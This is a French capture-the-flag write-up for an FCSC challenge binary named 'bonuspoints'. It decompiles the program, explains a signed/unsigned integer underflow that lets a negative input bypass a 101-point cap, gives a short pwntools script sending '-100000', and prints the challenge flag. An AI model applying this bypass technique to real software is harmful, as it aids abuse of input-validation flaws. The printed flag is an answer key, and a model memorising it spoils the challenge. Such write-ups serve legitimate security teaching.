

### Description

Qui n’a pas envie de quelques points bonus ? Obtenez un score supérieur à 1000 pour débloquer le flag.

##### Etape 1 - Analyse du fichier

**Type exécutable**  
Nous utilisons la commande `file` pour analyser le type de fichier.

Commande :
```
file bonuspoints 
```

Résultat :

```
bonuspoints: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=785ccc1769db4cc76c8c188395c2c81c6ce52a50, for GNU/Linux 3.2.0, not stripped
```

Le binaire est un exécutable Linux 64 bits.

**Vérifier les protections**  
Commande :

```
checksec --file=challenge
```



Ici, les protections classiques (NX, PIE) sont activées, mais le cœur de la vulnérabilité ne se situe pas dans un dépassement de tampon (buffer overflow) classique, mais dans la logique de calcul.

##### Ouvrir et analyser le fichier dans Ghidra

En analysant la fonction **main**, on observe le code suivant :

```

undefined8 main(void)

{
  uint __seed;
  int iVar1;
  char local_1a [10];
  int local_10;
  uint local_c;
  
  local_c = 0;
  __seed = getpid();
  srand(__seed);
  iVar1 = rand();
  local_c = iVar1 % 100;
  puts("Hello, here you can get some bonus points for the competition.");
  puts("You cannot get more than 100 bonus points.");
  puts("If you go above 1000 you win.");
  printf("Your score is currently %u\n",(ulong)local_c);
  printf("How many bonus points do you want?\n>>> ");
  fflush(stdout);
  fgets(local_1a,8,stdin);
  local_10 = atoi(local_1a);
  if (local_10 < 0x65) {
    local_c = local_c + local_10;
    printf("Your new score is %u\n",(ulong)local_c);
    if (local_c < 0x3e9) {
      puts("You should try to get more points");
    }
    else {
      puts("Congratulations! Here is your flag:");
      fflush(stdout);
      system("cat flag.txt");
    }
  }
  else {
    puts("Stop cheating!");
  }
  return 0;
}
```

**Explication**  
Le programme nous limite à demander 100 points maximum (`local_10 < 101`). Comme notre score de départ est entre 0 et 99, il est mathématiquement impossible d'atteindre 1001 points par une addition normale.

**Mais où se trouve la vulnérabilité ?**  
La vulnérabilité réside dans l'utilisation de types différents :

1. `local_10` est un **entier signé** (`int`). Il peut donc accepter des valeurs négatives.
2. `local_c` est un **entier non-signé** (`uint`).
3. Le programme vérifie si notre entrée est inférieure à 101, mais ne vérifie pas si elle est **négative**.

**Comment exploiter**  
Si nous entrons un grand nombre négatif (ex: `-10000`), la condition `local_10 < 101` est respectée. Lors de l'addition `local_c + (-10000)`, le score `local_c` (qui est non-signé) va subir un **underflow** et "boucler" vers une valeur positive immense (proche de 4 milliards), ce qui sera largement supérieur à 1000.

##### Exploitation

Script avec **pwntools** :

```python
from pwn import *

# Lancement du processus
p = process('./bonuspoint')

# Lecture de l'invite
p.recvuntil(b">>> ")

# Envoi d'une valeur négative pour provoquer l'underflow
# -100000 est bien < 101 et tient dans les 8 octets du fgets
payload = b"-100000"
p.sendline(payload)

# Récupération du flag
print(p.recvall().decode())
```

Boom ! Le score devient immense et le flag s'affiche.

> **Flag**
> **FCSC{750882cf64feb04b384cfa42bbf2167eab337671e663ab238339c6cee884851d}**
